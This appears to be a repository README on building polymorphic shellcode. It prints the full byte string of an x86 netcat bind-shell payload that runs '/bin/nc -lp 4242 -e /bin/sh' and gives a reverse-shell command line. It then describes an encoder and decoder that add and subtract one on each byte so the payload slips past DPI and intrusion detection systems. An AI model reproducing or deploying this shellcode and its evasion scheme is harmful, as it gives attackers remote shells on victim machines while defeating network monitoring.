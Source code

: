 # A netcat polymorphic shellcode

# A netcat shellcode

`netcat.asm` is a program that starts a netcat shell (0.0.0.0:4242). We can have a reverse shell by providing netcat an ip like `netcat myip 4242 -e /bin/sh`.


The program `get_opcodes.sh` allows us to retrieve opcodes related to our object files :
```
$> ./get_opcodes netcat.o
\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x30\x2d\x6c\x70\x34\x32\x34\x32\x30\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x30\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44

Length: 91
```
It also gives us the length of the payload.

We can use this payload as this in our exploit ... BUT ... It can easily be detected on the network by any software that does DPI, any good IDS for example.
On the last bytes of payload, we can easily read the string `/bin/nc0-lp42420-e/bin/sh0AAAABBBBCCCCDDDD` which is very suspect.

# Polymorphism ?

The idea is to encode the actual netcat payload and provide some code with it to decode it when it will be running.

The structure is the following :
```
+---------+---------+
| DECODER | PAYLOAD |
+---------+---------+
```

I decided to add 1 to each by of the payload as an encoding poc. The decoder will decrement each byte of the encoded payload at runtime so it can be interpreted again.

# The encoder (encode_sub.c)

Source file is commented.
It returns the encoded payload plus its length.

# The decoder (decode_sub.asm)

Source file is commented
We can get opcodes with `./get_opcodes.sh decode_sub.o`

# PoC (test_polymorphism)

Decoder and encoded shellcode are concatenated and called.
